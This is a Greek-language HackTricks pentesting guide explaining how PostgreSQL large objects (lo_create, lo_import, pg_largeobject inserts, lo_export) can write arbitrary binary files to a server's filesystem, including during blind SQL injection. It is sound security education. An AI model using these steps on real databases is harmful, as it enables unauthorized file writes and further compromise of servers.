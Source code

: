 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### PostgreSQL Large Objects

Το PostgreSQL προσφέρει μια δομή γνωστή ως **large objects**, προσβάσιμη μέσω του πίνακα `pg_largeobject`, σχεδιασμένη για την αποθήκευση μεγάλων τύπων δεδομένων, όπως εικόνες ή έγγραφα PDF. Αυτή η προσέγγιση είναι πλεονεκτική σε σχέση με τη λειτουργία `COPY TO`, καθώς επιτρέπει την **εξαγωγή δεδομένων πίσω στο σύστημα αρχείων**, διασφαλίζοντας ότι διατηρείται μια ακριβής αναπαράσταση του αρχικού αρχείου.

Για **να αποθηκεύσετε ένα πλήρες αρχείο** μέσα σε αυτόν τον πίνακα, πρέπει να δημιουργηθεί ένα αντικείμενο στον πίνακα `pg_largeobject` (αναγνωριζόμενο από ένα LOID), ακολουθούμενο από την εισαγωγή κομματιών δεδομένων, το καθένα 2KB σε μέγεθος, σε αυτό το αντικείμενο. Είναι κρίσιμο αυτά τα κομμάτια να είναι ακριβώς 2KB σε μέγεθος (με την πιθανή εξαίρεση του τελευταίου κομματιού) για να διασφαλιστεί ότι η λειτουργία εξαγωγής εκτελείται σωστά.

Για **να διαιρέσετε τα δυαδικά σας δεδομένα** σε κομμάτια των 2KB, μπορούν να εκτελούνται οι εξής εντολές:
```bash
split -b 2048 your_file # Creates 2KB sized files
```
Για την κωδικοποίηση κάθε αρχείου σε Base64 ή Hex, μπορούν να χρησιμοποιηθούν οι παρακάτω εντολές:
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**Σημαντικό**: Όταν αυτοματοποιείτε αυτή τη διαδικασία, βεβαιωθείτε ότι στέλνετε κομμάτια 2KB καθαρών byte. Τα αρχεία που είναι κωδικοποιημένα σε Hex θα απαιτούν 4KB δεδομένων ανά κομμάτι λόγω διπλασιασμού του μεγέθους, ενώ τα αρχεία που είναι κωδικοποιημένα σε Base64 ακολουθούν τον τύπο `ceil(n / 3) * 4`.

Τα περιεχόμενα των μεγάλων αντικειμένων μπορούν να προβληθούν για σκοπούς αποσφαλμάτωσης χρησιμοποιώντας:
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### Using `lo_creat` & Base64

Για να αποθηκεύσετε δυαδικά δεδομένα, πρώτα δημιουργείται ένα LOID:
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
Σε καταστάσεις που απαιτούν ακριβή έλεγχο, όπως η εκμετάλλευση ενός Blind SQL Injection, προτιμάται το `lo_create` για τον καθορισμό ενός σταθερού LOID.

Τα κομμάτια δεδομένων μπορούν στη συνέχεια να εισαχθούν ως εξής:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
Για να εξάγετε και ενδεχομένως να διαγράψετε το μεγάλο αντικείμενο μετά τη χρήση:
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### Χρησιμοποιώντας το `lo_import` & Hex

Η συνάρτηση `lo_import` μπορεί να χρησιμοποιηθεί για να δημιουργήσει και να καθορίσει ένα LOID για ένα μεγάλο αντικείμενο:
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
Μετά τη δημιουργία του αντικειμένου, τα δεδομένα εισάγονται ανά σελίδα, διασφαλίζοντας ότι κάθε κομμάτι δεν υπερβαίνει τα 2KB:
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
Για να ολοκληρωθεί η διαδικασία, τα δεδομένα εξάγονται και το μεγάλο αντικείμενο διαγράφεται:
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### Περιορισμοί

Σημειώνεται ότι **τα μεγάλα αντικείμενα μπορεί να έχουν ACLs** (Λίστες Ελέγχου Πρόσβασης), περιορίζοντας ενδεχομένως την πρόσβαση ακόμη και σε αντικείμενα που δημιουργήθηκαν από τον χρήστη σας. Ωστόσο, παλαιότερα αντικείμενα με επιτρεπτικές ACLs μπορεί να είναι ακόμη προσβάσιμα για εξαγωγή περιεχομένου.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
